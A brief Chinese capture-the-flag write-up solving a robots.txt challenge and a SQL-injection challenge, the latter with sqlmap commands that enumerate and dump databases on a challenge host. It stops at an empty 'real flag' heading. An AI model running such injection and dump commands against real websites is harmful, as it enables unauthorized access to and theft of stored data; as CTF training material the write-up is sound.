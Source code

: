 # Robots

## 题目描述

昨天十三年社团讲课，讲了Robots.txt的作用，小刚上课没有认真听课正在着急，你能不能帮帮忙

## 解答

1. 在URL后加上/Robot.txt文件后缀，访问该网页
2. 提示不允许访问的页面文件
3. 进入该文件
4. 得到flag

## 总结

> 可以通过在题目中发现的信息来给URL后加上某些文件后缀，并以此访问到一些信息。

# 文章管理系统

## 题目描述

这是我们的文章管理系统，快来看看有什么漏洞可以拿到FLAG吧？注意：可能有个假FLAG哦。

## 提示

你需要命令执行才能拿到最终FLAG（确信）

## 解答

假的Flag

1. 使用kali里的sqlmap工具来进行sql注入语句扫描

   ```shell
   sqlmap -u  “http://challenge.qsnctf.com:31645/?id=1”  --dbs
   ```

2. 逐个查看扫描读取得到的数据库

   ```shell
   sqlmap -u http://challenge.qsnctf.com:31645/?id=1 -D ctftraining -T test --dump
   ```

3. 查看Word表的articles列

   ```shell
   sqlmap -u http://challenge.qsnctf.com:31645/?id=1 -D word -T articles--dump
   ```

4. 得到flag

真的Flag

